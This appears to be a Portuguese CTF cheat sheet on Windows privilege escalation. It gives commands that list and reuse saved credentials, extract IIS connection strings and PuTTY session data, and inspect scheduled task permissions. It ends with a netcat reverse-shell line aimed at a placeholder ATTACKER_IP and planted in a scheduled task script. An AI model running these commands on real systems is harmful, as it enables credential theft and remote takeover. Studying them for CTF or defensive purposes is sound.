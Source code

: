 
## Credenciais salvas do Windows
### Listar credenciais:
```cmd
cmdkey /list
```

### Usar credenciais salvas:
```cmd
runas /savecred /user:<admin> cmd.exe
```

---

## Configuração do IIS
Buscar strings de conexão (connection strings):
```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

---

## Recuperar credenciais do PuTTY
```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

---

# 🚩 Cenários CTF (e possíveis aplicações práticas)

## Tarefas agendadas
Verificar uma tarefa específica:
```cmd
schtasks /query /tn vulntask /fo list /v
```

Se o usuário puder modificar a tarefa, verificar permissões:
```cmd
icacls <caminho_para_o_arquivo>
```

Exemplo de shell reverso:
```cmd
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

---

## Pesquisa no Windows
Procurar arquivos específicos:
```cmd
dir C:\ /s /p /a:-d | findstr /i "taskusr1"
```

---